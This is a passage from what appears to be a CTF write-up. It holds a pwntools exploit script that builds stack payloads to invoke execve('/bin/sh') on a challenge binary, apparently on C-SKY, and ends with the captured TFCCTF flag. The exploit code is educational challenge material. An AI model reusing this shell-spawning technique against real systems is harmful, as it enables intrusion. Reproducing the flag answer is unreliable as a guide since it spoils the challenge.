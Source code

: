 ```py
    # read
    # [r3-0] -> buf
    # [r8-12] -> size
    # [r8-4] -> fd
    payload += p32(0x8888)

    r.sendafter(b"read:", payload)

    ### SECOND PAYLOAD ###
    pause(2)

    payload = fit({
        0: p32(0),
        4: p32(0),
        8: p32(stack+32),
        12: p32(221+21), #execve
        32: b"/bin/sh\0",
    })

    payload = payload.ljust(132, b'\0')
    payload += p32(stack+140)
    payload += p32(stack+140)
    payload += p32(stack+16)
    payload += p32(0x8806)

    r.send(payload)
    r.interactive()

if __name__ == "__main__":
    main()
```

Fun fact: I finished this script and got the flag at 4AM :pray:

```
TFCCTF{cromozominus_pulisaki_in_redacted_cro++_crorex_crovid}
```

[linux]: https://elixir.bootlin.com/linux/v6.16.3/source/arch/csky/kernel/signal.c#L69
